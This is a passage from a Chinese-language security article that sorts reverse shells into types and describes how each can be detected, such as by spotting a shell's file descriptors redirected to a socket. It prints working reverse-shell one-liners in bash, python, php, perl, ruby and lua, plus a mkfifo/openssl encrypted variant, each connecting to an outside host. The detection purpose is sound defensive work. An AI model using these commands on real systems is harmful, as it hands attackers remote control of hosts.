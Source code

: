   * 重定向我们称之为“中转”，可以通过管道、文件描述符、内存文件等等实现。

  

按照这个思路，我们对反弹shell划分出以下三种类型

#### 第一类反弹shell：直接重定向shell的输入输出到socket

最典型的例子是

    
    
    bash -i >& /dev/tcp/10.10.10.10/666 0>&1  
    

通过重定向bash -i的标准输入、标准输出、标准错误到/dev/tcp socket进行网络通信，可以通过下图理解重定向过程

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714175437.png)这类反弹shell检测方案可以通过检测shell的标准输入、标注输出是否被重定向到socket，也可以通过一些简单的主机网络日志特征覆盖![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714175438.png)![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714175439.png)

  

直接重定向shell解释器的输入输出到socket类型常见例子

    
    
    bash -i >& /dev/tcp/10.10.10.10/6060 0>&1  
    
    
    
    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",6060));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'  
    
    
    
    php -r '$sock=fsockopen("10.10.10.10",6060);exec("/bin/sh -i <&3 >&3 2>&3");'  
    
    
    
    perl -e 'use Socket;$i="10.10.10.10";$p=6060;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'  
    
    
    
    ruby -rsocket -e'f=TCPSocket.open("10.10.10.10",6060).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'  
    
    
    
    lua -e "require('socket');require('os');t=socket.tcp();t:connect('10.10.10.10','6060');os.execute('/bin/sh -i <&3 >&3 2>&3');"  
    

  

#### 第二类反弹shell：通过管道/伪终端等中转, 再重定向shell的输入输出到中转

此类反弹shell借助管道、伪终端等进行中转，如下面这个案例将sh
-i的标准输入、标准输出、标准错误重定向到命名管道/tmp/f，同时加密通信数据也流向该命名管道。

    
    
    mkfifo /tmp/f; /bin/sh -i < /tmp/f 2>&1 | openssl s_client -quiet -connect 0.0.0.0:666 > /tmp/f  
    

在某些变形的场景下，可能经过层层中转，但无论经过几层最终都会形成一条流动的数据通道。通过跟踪fd和进程的关系可以覆盖

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714175440.png)

